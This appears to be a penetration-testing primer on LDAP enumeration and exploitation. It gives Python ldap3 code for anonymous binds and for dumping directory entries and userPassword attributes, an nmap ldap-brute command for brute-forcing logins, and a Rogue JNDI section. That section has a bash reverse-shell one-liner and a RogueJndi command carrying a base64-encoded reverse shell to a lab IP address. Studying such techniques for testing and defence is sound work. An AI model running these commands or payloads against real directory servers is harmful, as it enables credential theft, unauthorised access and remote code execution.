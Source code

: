 ```yaml
---
description: A primer into LDAP enumeration and exploitation
---
```


# LDAP Exploitation

## Enumeration

### Manual simple enumeration with ldap3

Manual LDAP Enumeration Attackers can perform manual LDAP enumeration using Python. Follow the steps given below to perform manual LDAP enumeration using Python.&#x20;

1. Using Nmap, check whether the target LDAP server is listening on the port `389` for LDAP and port `636` for secure LDAP.&#x20;
2. If the target server is listening on the specified ports, initiate the enumeration process by installing LDAP using the following command: pip3 install ldap3&#x20;
3. As shown in the code given below, create a server object (server), and specify the target IP address or hostname and port number. If the target server is listening on secure LDAP, specify `use_ssl = True`.&#x20;
4. Retrieve the Directory System Agent (DSA)–specific entry (DSE) naming contexts by specifying `get_info = ldap3.ALL`.&#x20;
5. Now, create a connection object, `connection`, and initiate a call to `bind()`.
6. If the connection is successful, True is displayed on the screen as follows:

```
>>> import ldap3
>>> server = ldap3.Server('Target IP Address', get_info = ldap3.ALL, port =389) 
>>> connection = ldap3.Connection(server) 
>>> connection.bind() 

True
```

7. Now, one can fetch information such as the domain name and naming context using the following script:

```
>>> server.info
```

8. After obtaining the naming context, retrieve all the directory objects using the script given below:

{% code overflow="wrap" %}
```
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*') 

True

>> connection.entries 
```
{% endcode %}

9. Now, use the following script to dump the entire LDAP:

{% code overflow="wrap" %}
```
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')


True 

>>> connection.entries
```
{% endcode %}

### Using nmap

Attackers use the `ldap-brute` NSE script to brute-force LDAP authentication. By default, it uses the built-in username and password lists.&#x20;

The `userdb` and `passdb` script arguments can be employed to use custom lists.

{% code overflow="wrap" %}
```
sudo nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=<DC_NAME>,dc=com"' <Target IP Address>
```
{% endcode %}

### Using ldapsearch

The `ldapsearch` is a shell-accessible interface for the `ldap_search_ext(3)` library call.&#x20;

The `ldapsearch` opens a connection to an LDAP server, binds it, and performs a search using the specified parameters.&#x20;



## Exploitation

### Using Rogue JNDI

Java Naming and Directory Interface is a Common interface to interact with Naming and Directory Services.&#x20;

To know more read [this](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf). &#x20;

#### Bash reverse shell using rogue jndi

Base 64 encoded reverse shell payload:

```
echo "bash -c bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1" | base64
```

Start a netcat listener on the PORT.

Use base 64 encoded payload for Rogue JNDI&#x20;

```
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ0IDA+JjEiCg==}|{base64,-d}|{bash,-i}" --hostname "10.129.56.33"
```





